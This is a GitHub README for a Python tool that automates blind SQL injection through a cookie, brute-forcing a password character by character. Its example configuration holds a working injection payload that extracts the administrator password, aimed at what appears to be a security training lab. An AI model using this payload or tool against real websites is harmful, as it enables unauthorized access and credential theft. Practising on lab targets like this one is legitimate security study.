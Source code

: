 # SQLInjector

At the moment the app is able to test for cookie injection vulnerabilities. It can be passed the url to test, the code
to inject, the name of the cookie to inject, a confirmation string to be matched on the response content, chars-set to
use for brute forcing, password length, and max number of concurrent thread to run.

### Usage:

1. Clone the repository

   ```zsh
    git clone https://github.com/hogchild/SQLInjector.git
   ```
2. cd into the SQLInjector directory
   ```zsh
   cd SQLInjector
   ```
3. Run Cookie Injector
   ```zsh
   python3.12 -m SQLInjector.cookie_injector --help
   ```
   ```zsh
   Usage: python -m SQLInjector.cookie_injector [OPTIONS]
   
     This app injects a cookie, sends the crafted request, and checks the
     response from the page content. It needs a JSON configuration file. You can
     edit this manually, at the path: 'config/cookie_injector.json'. The setup
     utility will run automatically, to create one, when launching
     cookie_injector.py without a configuration file in the config folder.
     Alternatively you can run it with the '-s' option.
   
   Options:
     -u, --set-url TEXT      Specify target URL instead of the one in config
                             file.
     -s, --setup-utility     Interactively edit the config file.
     -f, --config-file PATH  Path to config file.  [default:
                             config/cookie_injector.json; required]
     -o, --out-file PATH     Path to output file with the recovered password.
     --help                  Show this message and exit.
   ```
### Example Configuration File
**File path:** config/cookie_injector.json
```json
{
   "target_url": "https://0a76003c03fc905d81c6c029009800fa.web-security-academy.net/product?productId=2",
   "inject_code": "' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--",
   "passwd_length": 20,
   "char_set": "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789",
   "confirm_string": "Welcome",
   "cookie_name": "TrackingId",
   "max_threads": 20
}
```